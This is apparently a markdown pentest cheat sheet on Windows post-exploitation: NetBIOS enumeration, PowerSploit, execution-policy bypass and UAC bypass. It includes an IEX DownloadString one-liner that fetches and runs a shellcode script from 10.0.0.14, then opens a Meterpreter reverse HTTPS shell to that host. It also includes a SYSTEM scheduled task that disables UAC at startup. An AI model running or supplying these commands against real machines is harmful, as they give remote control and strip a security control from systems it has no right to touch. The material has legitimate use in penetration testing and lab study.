 ### NetBIOS

NetBIOS Name is a 16-byte name for a networking service or function on a machine running Microsoft Windows Server. NetBIOS names are a more friendly way of identifying computers on a network than network numbers.

* local: `nbtstat -n`

* remote scan: `sudo nmap -sU --script nbstat.nse -p137 <host>`

### PowerSploit

* PowerSploit is extramely useful for actions on objective after reconaissance with `Privesc`
* Each single Module can accessed as so after hosting the directory
* for more info see: https://resources.infosecinstitute.com/topic/powershell-toolkit-powersploit/

```powershell
IEX (New-Object Net.WebClient).DownloadString(“http://10.0.0.14:8000/CodeExecution/Invoke-Shellcode.ps1”)

Get-Help Invoke-Shellcode

Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 10.0.0.14 -Lport 4444 -Force

```

Following metasploit payloads are supported

```bash
windows/meterpreter/reverse_http
windows/meterpreter/reverse_https
```

### Basic usage
* start PS from cmd bypassing the execution policy: `powershell -ep bypass`
* importing modules is possbile with dot notation: `. .\PowerView.ps1`



## UAC bypass

* check UAC in cmd: `REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA`

* find out UAC level: `REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin`

* UAC can be bypassed using https://github.com/turbo/zero2hero
OR 

```powershell

#turn of UAC triggering a scheduled task

$action = New-ScheduledTaskAction -Execute 'powershell.exe' -Argument 'Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name "EnableLUA" -Value 0'
$trigger = New-ScheduledTaskTrigger -AtStartup
$principal = New-ScheduledTaskPrincipal -UserId "NT AUTHORITY\SYSTEM" -LogonType ServiceAccount
Register-ScheduledTask -TaskName "DisableUAC" -Action $action -Trigger $trigger -Principal $principal


```

